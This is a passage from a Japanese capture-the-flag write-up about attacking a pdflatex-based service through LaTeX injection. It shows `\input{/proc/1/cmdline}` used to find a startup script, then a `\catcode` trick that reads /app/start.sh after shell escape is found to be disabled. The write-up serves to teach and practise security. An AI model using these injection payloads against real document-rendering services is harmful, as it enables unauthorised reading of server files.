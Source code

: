 ![](./images/2023-12-potluck-santify-3.png)

ダメでした。ここで、`cmd` の箇所を見てみると `pdflatex` のオプションとして `-no-shell-escape` が指定されています。これでは `\immediate\write18` を使ってコマンドを実行することができないため、別の方法を探る必要があります。

```text
timeout 10 pdflatex -no-shell-escape -interaction=nonstopmode -output-directory /app/images/q1ikl716c33gm7b9q4nf /app/images/q1ikl716c33gm7b9q4nf/latex.tex
```

とりあえず `\input` でファイルを開けることはわかったので、これをベースに調査を進めてみます。

少しの試行のあと、`\input{/proc/1/cmdline}` を送信すると以下のエラーメッセージが得られました。どうやら、`/app/start.sh` が存在するようです。

```text
...
No file latex.aux.
(/proc/1/cmdline
! Text line contains an invalid character.
l.1 bash^^@
           /app/start.sh^^@
! Text line contains an invalid character.
l.1 bash^^@/app/start.sh^^@
...
```

同様の方法で `/app/start.sh` を開いてみます。なお、`start.sh` には shebang が含まれているので、`\catcode` を使って制御記号として扱わないようにします。

```latex
$
\catcode`\#=12
\input{/app/start.sh}
$
```
